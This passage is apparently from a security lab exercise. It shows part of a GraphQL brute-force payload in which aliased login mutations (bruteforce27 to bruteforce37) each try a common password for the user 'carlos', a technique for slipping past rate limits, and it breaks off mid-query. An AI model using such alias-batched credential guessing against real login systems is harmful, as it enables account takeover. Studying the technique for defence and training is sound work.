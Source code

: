 ```plain


bruteforce27:login(input:{password: "7777777", username: "carlos"}) {
        token
        success
    }


bruteforce28:login(input:{password: "121212", username: "carlos"}) {
        token
        success
    }


bruteforce29:login(input:{password: "000000", username: "carlos"}) {
        token
        success
    }


bruteforce30:login(input:{password: "qazwsx", username: "carlos"}) {
        token
        success
    }


bruteforce31:login(input:{password: "123qwe", username: "carlos"}) {
        token
        success
    }


bruteforce32:login(input:{password: "killer", username: "carlos"}) {
        token
        success
    }


bruteforce33:login(input:{password: "trustno1", username: "carlos"}) {
        token
        success
    }


bruteforce34:login(input:{password: "jordan", username: "carlos"}) {
        token
        success
    }


bruteforce35:login(input:{password: "jennifer", username: "carlos"}) {
        token
        success
    }


bruteforce36:login(input:{password: "zxcvbnm", username: "carlos"}) {
        token
        success
    }


bruteforce37:login(input:{password: "asdfgh", username: "carlos"}) {
```